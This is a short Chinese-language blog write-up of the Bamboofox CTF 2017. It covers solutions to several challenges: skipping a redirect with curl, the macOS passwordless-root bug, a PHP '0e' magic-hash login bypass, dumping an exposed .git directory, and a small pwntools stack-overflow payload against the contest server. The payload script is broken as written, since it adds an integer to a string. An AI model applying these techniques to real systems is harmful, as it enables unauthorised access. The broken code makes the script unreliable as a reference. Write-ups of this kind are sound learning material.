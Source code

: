 ```yaml
---
title: Bamboofox CTF 2017
date: 2018-01-01 09:47:57
categories:
    - Write-up
    - Bamboofox
    - 2017
tags:
    - Write-up
    - Bamboofox
---
```



過了好幾個月重回了 CTF 比賽，但是這次考的是我以前沒學過的 x64 再加上我完全忘記要如何解題，變得 pwn 只拿下一題，挺失望的 QQ

`這裡就不分享 FLAG 了，只會寫出解法(也沒幾題QQ`

## Misc

### suck-browser
又是個 `302` 的坑，用 `curl` 就可以停止自動跳轉

### suck-apple
一個時事梗，只用 `root` 當作用戶名，不需要密碼即可有 `root` 權限

## Web

### suck-login

Description:
```
There is a suck login page and I found the md5 hash password is 0e836584205638841937695747769655.

Can you crack it?!
```

題目有提示 `hash(密碼)` 是 `0e` 開頭的，就可以聯想到是 php 會自動轉形態的問題，
因為 php 會自動把密碼的雜湊值轉成科學記號，變成0
所以密碼只要再找一組雜湊值一樣為0的就可以得到 FLAG

### tiny-git
看到題目，一開始就先看 `/.git/` 資料夾，發現會返回 `403 Forbidden`，
利用 `Denny` 大大的 Sctipt [(Link)](https://github.com/denny0223/scrabble)
可以發現檔案依舊可以下載，但是子目錄的檔案因為會返回 403
所以沒辦法瞭解內部檔案狀況
這時候就要科普一下 git 的儲存方式
[對於 git 的小解釋](https://www.siteground.com/tutorials/git/directory-structure/)
在找到 log 之後發現他直接在 commit messege 裡面寫上 FLAG

## pwn (最遺憾的一個類別)

### water-impossible
在題目有給了原始碼和 binary，在原始碼看到如果 `(int token) == 6666`
這個檢查有過，就會噴 FLAG
(保護只有開 NX)

所以利用 cyclic 確定可以蓋到 token ，並且知道 offset 是 28，所以
Payload:
{% codeblock lang:python %}
#!/usr/bin/env python

r = remote('bamboofox.cs.nctu.edu.tw', 58799)

payload = 'a'*28 + 0x00001a0a
r.recvuntil(':')
r.sendline(payload)
r.interactive()
{% endcodeblock %}

Rank: 21 (6l0ry)


